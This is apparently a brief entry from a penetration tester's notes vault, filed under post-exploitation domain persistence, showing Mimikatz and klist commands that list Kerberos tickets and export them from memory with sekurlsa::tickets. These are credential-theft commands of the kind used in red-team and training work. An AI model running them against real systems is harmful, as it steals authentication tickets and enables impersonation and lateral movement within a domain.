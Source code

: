 # Mimikatz

- Check if tickets are present

```
C:\> klist

mimikatz # kerberos::list

mimikatz # kerberos::tgt
```

- Extract tickets

`mimikatz # sekurlsa::tickets /export`

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Persistence/Windows/Domain Persistence/Create Ticket/Golden Ticket/C2 Frameworks/Metasploit]]